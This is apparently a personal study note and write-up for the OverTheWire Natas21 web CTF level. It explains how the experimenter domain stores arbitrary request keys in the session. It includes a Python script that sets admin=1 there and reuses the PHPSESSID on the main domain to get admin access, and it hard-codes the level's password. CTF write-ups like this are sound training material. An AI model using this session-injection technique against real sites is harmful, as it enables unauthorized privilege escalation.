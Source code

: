 
2024-07-22 16:21

Source: #natas #web 

Tags: [[PHP]] 

## Natas21

- we have 2 domains 
- 1st domain 
	- only calls the print flag function and has text that mentions the other domain 
- 2nd domain 
	- if they submit to the page, every single key in the requests is actually stored in session. 
- by setting debug = true and submit = 1 in the `get` request we get to know that it's gonna read the `get` variables just as well as it would have read the `post` variable
- since the websites are collocated the session id is assumed to not change
we need the same session already occurring similar to [[PHPSESSID & session handler w py]] Natas20

```python
import requests
username = 'natas21'
password = 'BPhv63cKE1lkQl04cE5CuFTzXe15NfiH'

url = 'http://natas21.natas.labs.overthewire.org/?debug=true'

experiment = 'http://natas21-experimenter.natas.labs.overthewire.org/?debug=true&submit=1&admin=1'

session = requests.Session()

 # Getting the cookie from experiment domain we declare admin = 1 in `get` request in the url this can also be done via `post` method

response = session.get(experiment,auth=(username,password))
old_cookie = session.cookies["PHPSESSID"]

# using previously aquired session cookie in the main domain

responses = session.get(url,cookies= {"PHPSESSID" :old_cookie},auth=(username,password))
print(responses.text)
```
### TLDR

- We are forcing admin = 1 on experiment domain to get the session cookie of an admin account 
- since the session id is same for both the domains we copy the cookie from the experiment domain and use it in the main url to become admin and get the flag 

### References
https://www.youtube.com/watch?v=iFgQyI3Vfag